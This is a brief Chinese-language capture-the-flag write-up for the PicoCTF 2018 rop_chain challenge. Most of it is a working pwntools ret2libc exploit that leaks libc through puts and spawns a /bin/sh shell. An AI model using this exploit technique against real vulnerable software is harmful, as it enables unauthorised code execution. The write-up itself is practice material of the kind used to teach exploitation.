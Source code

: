 拖入IDA进行分析
![](img/02207823c2b74bd8f981c0f2c9fc2746.png)

很大很直接的一个溢出的漏洞

由于没有能直接getshell的gadget，还是考虑ret2libc：构造rop链泄露libc基址后执行`system("/bin/sh")`即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = process('./PicoCTF_2018_rop_chain') 
e = ELF('./PicoCTF_2018_rop_chain')
offset = 0x18

payload1 = b'A' * offset + p32(0xdeadbeef) + p32(e.plt['puts']) + p32(e.sym['main']) + p32(e.got['puts'])

p.recv()
p.sendline(payload1)
puts_addr = u32(p.recv(4))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
sh_addr = libc_base + libc.dump('str_bin_sh')

payload2 = b'A' * offset + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)
p.sendline(payload2)
p.interactive() 
```

运行即可get shell
